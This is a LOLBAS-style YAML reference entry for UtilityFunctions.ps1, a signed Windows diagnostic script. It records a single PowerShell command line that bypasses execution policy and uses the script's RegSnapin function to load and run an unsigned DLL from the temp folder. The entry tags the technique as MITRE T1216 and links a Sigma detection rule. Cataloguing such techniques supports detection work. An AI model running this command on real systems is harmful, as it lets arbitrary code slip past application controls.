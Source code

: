 ```yaml
---
Name: UtilityFunctions.ps1
Description: PowerShell Diagnostic Script
Author: Jimmy (@bohops)
Created: 2021-09-26
Commands:
  - Command: 'powershell.exe -ep bypass -command "set-location -path c:\windows\diagnostics\system\networking; import-module .\UtilityFunctions.ps1; RegSnapin ..\..\..\..\temp\unsigned.dll;[Program.Class]::Main()"'
    Description: Proxy execute Managed DLL with PowerShell
    Usecase: Execute proxied payload with Microsoft signed binary
    Category: Execute
    Privileges: User
    MitreID: T1216
    OperatingSystem: Windows 10 21H1 (likely other versions as well), Windows 11
Full_Path:
  - Path: C:\Windows\diagnostics\system\Networking\UtilityFunctions.ps1
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/0.21-688-gd172b136b/rules/windows/process_creation/proc_creation_win_lolbas_utilityfunctions.yml
Resources:
  - Link: https://twitter.com/nickvangilder/status/1441003666274668546
Acknowledgement:
  - Person: Nick VanGilder
    Handle: '@nickvangilder'
---
```

